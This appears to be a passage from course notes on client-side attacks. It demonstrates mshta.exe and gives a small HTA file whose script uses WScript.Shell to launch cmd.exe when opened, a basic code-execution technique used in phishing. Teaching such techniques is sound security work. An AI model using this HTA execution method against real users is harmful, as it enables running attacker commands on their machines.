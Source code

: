 #### Demo

- Mshta.exe located in C:\Windows\System32
  ![Picture](../13.%20Client-Side%20Attacks/Image/4.png)
- So we will creata a simple .hta file to run cmd.exe
  ![Picture](../13.%20Client-Side%20Attacks/Image/5.png)
```html
<html>
<body>
<script>
  var c= 'cmd.exe'
  new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```